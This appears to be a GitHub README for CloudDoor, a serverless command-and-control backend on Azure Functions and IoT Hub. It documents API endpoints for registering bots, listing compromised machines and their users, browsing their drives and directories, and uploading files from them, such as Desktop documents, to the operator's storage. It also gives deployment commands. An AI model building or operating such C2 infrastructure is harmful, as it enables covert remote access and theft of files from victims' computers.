 # About

CloudDoor is a minimalistic serverless CnC application based on Azure Functions and Azure IoT Hub.
The application allows to register new IoT devices, perform basic queries on them and issue remote operations.

The following reporitory contains only the backend configuration and code.
[The code of an example bot can be found here.](https://github.com/kamiljano/CloudDoorClient)

# TODO

* Store the device creation date (might require parsing the IoT Hub event)
* make sure that the functions are deployed along with the template
* Figure out the authentication for everything except for the registration function
* Create an endpoint for issuing the new commands
* Add automatic client version updates
* Make sure that the admin api of the IoT Hub can only be accessed from the cloud. Might need to put it into some vNet or something

# Endpoints

## Register

    PUT /api/bots

    No Body

    Example output:

    {
        "connectionString": "HostName=**********;SharedAccessKey=**************",
        "deviceId": "****************"
    }

## Search for devices

    GET /api/bots

    Example output:

    [
        {
            "id": "c12535a0-a673-4510-8bbc-c1b3bb80281f",
            "os": {
                "version": "Microsoft Windows NT 6.2.9200.0",
                "type": "Win32NT"
            },
            "currentUser": "DF\\janoka"
        }
    ]

## Issue a command

    POST /api/bots/:botId/command

### List Drives

    Request Body:

    {
        "type": "driveList"
    }

    Example Response:

    {
        "drives": [
            {
                "name": "C:\\"
            }
        ]
    }

### List Directories

    Request Body:

    {
        "type": "dirList",
        "payload": {
            "path": "C:"
        }
    }

    Example Response:

    {
        "files": [
            {
                "name": "data",
                "type": "DIR"
            },
            {
                "name": "postgresql_84.exe",
                "type": "FILE"
            }
        ]
    }

### Upload file

    Request Body:

    {
        "type": "fileUpload",
        "payload": {
            "paths": [
                "C:\\Users\\janoka\\Desktop\\exam.docx"	
            ]
        }
    }

    Example Response:

    {
        "uploads": [
            {
                "status": "UPLOADED",
                "path": "C:\\Users\\janoka\\Desktop\\speach.docx",
                "storage": {
                    "path": "uploads/2a33cc05-8186-45e2-ae47-1325cf89d66d/C:/Users/janoka/Desktop/speach.docx"
                }
            }
        ]
    }

Where `uploads.storage.path` represents the exact place in the Azure Storage account where the file is available.

# Install Dependencies

All dependencies can be installed with the simple command

```
npm install -g azure-functions-core-tools
npm install
```

# Deploy

## Production environemnt

1. Create a resource group - `az group create --name CloudDoorProdResourceGroup --location northeurope`
2. Deploy the resources - `az group deployment create --resource-group CloudDoorProdResourceGroup --template-file "./azuredeploy.json"`

## Development environment

1. Create a resource group - `az group create --name CloudDoorDevResourceGroup --location northeurope`
2. Deploy the resources - ` az group deployment create --resource-group CloudDoorDevResourceGroup --template-file "./azuredeploy.json" --parameters @azuredeploy-devparameters.json`

## Common

3. Authentiation cannot be defined in the ARM template. This is why it has to be set up automatically based on [this video](https://www.youtube.com/watch?v=aMk4sieku_Y)

# Debug locally

Once all resources are deployed, you can fetch the remote settings with `func azure functionapp fetch-app-settings CloudDoorDev`.
This will pre-configure the `local.settings.json` with all the necessary data to hook your local instance to the remotely hosted IoT Hub and
all other resources that are necessary for a smooth local run.

Once you have your `local.settings.json` in place, run the local server with `func start`